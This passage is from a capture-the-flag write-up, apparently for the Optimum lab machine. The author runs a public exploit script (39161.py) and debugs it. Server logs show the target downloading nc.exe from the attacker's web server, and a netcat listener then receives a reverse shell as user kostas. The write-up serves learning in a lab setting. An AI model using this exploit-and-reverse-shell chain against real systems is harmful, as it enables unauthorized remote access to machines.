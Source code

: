 ```
127.0.0.1 - - [20/Nov/2019 16:01:39] "GET / HTTP/1.1" 200 -
127.0.0.1 - - [20/Nov/2019 16:01:39] code 404, message File not found
127.0.0.1 - - [20/Nov/2019 16:01:39] "GET /favicon.ico HTTP/1.1" 404 -
```

This is strange, the file file should be there, I check manually via my browser and see the following line:

```
127.0.0.1 - - [20/Nov/2019 16:07:26] "GET /nc.exe HTTP/1.1" 200 -
```

ok, the file is there, need to debug the script some more perhaps?

I check the script for typos an noticed I'd missed a '.' in the IP address, I correct and run again:


```bash
python 39161.py $TARGET 80 
```

This time execution is confirmed as Optimum hits my server:

```
10.10.10.8 - - [20/Nov/2019 16:10:46] "GET /nc.exe HTTP/1.1" 200 -
10.10.10.8 - - [20/Nov/2019 16:10:46] "GET /nc.exe HTTP/1.1" 200 -
10.10.10.8 - - [20/Nov/2019 16:10:46] "GET /nc.exe HTTP/1.1" 200 -
10.10.10.8 - - [20/Nov/2019 16:10:46] "GET /nc.exe HTTP/1.1" 200 -
```

When I check my listener:

```
listening on [any] 443 ..
```

Nothing, ok I know it connected maybe there is an issue client side as described in the exploit, I run again:

``` bash
python 39161.py $TARGET 80 
```

This time it pops a shell in kostas's desktop:

```
connect to [10.10.14.37] from (UNKNOWN) [10.10.10.8] 49166
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Users\kostas\Desktop>
```


d0c39409d7b994a9a1389ebf38ef5f73

## Priv Escalation

When manually doing priv esc on Windows I have a playbook to run through, sure there are several tools but they dull the learning process. 
